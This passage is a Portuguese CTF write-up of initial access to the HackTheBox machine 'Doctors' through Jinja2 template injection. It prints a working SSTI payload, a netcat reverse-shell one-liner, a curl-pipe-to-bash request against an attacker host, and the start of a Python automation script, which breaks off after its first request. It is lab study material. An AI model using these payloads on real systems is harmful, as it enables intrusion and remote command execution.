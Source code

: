 ## Acesso inicial

Após confirmado que um payload para Jinja2 deveria ser utilizado, foi possível obter um shell reverso na máquina através do seguinte processo:

- Em uma pasta na máquina do atacante, criei um arquivo de payload contendo a string que, uma vez executada, nos retornaria um shell reverso na porta 4443;

  ```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
  ```
  
- Este arquivo foi publicado a partir de um server HTTP simples utilizando python3, conforme execução do comando abaixo a partir do diretório onde o arquivo criado está localizado;

  ```bash
    sudo python3 -m http.server 80
  ```
  
- No portal, criei um novo post inserindo no lugar da string `title`, o conteúdo obtido no link acima citado do PayloadsAllTheThings. Este especificamente é bem interessante, pois nos permite executar comandos de forma dinâmica a partir do conteúdo recebido da variável **input** em um request do tipo GET, evitando assim modificar frequentemente o conteúdo da injeção:

  ```python
  {% raw %}{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}{% endraw %}
  ```
  
- Iniciei um listener usando netcat para ouvir na porta configurada no payload usando o comando abaixo;

  ```bash
  nc -lnvp 4443
  ```

- E depois fiz um request no portal, passando o comando que gostaria de ser executado na query string com o comando no input que gostaria que fosse executado.

  ```bash
  http://doctors.htb/archive?input=curl%20-L%20http://10.10.10.10/payload%20|%20bash
  ```

- E voilá! Recebi um shell reverso :smiley:

![image-20210117191626475](https://i.imgur.com/TyHFL9D.png){: .align-center}

**Bônus**: Pra facilitar na reobtenção deste acesso inicial, uma vez que a conta criada tem a validade curta de 20 min, criei um script simples em python para esta tarefa :smiley:.​ Para usá-lo basta configurar o listener e o webserver, da mesma forma que faríamos no método 100% manual, com a diferença de que o script irá recriar o usuário, configurar o payload malicioso na mensagem e fazer o request retornando o shell reverso novamente.
{: .notice--info}

```python
#!/usr/bin/python3

import requests

url = 'http://doctors.htb'
username = 'dummy'
password = 'P@ssw0rd'
ip = '10.10.10.10'
email = username+'@doctors.htb'

# Create new session
s = requests.session()

# Make initial request to get required cookies
r = s.get(url)
```
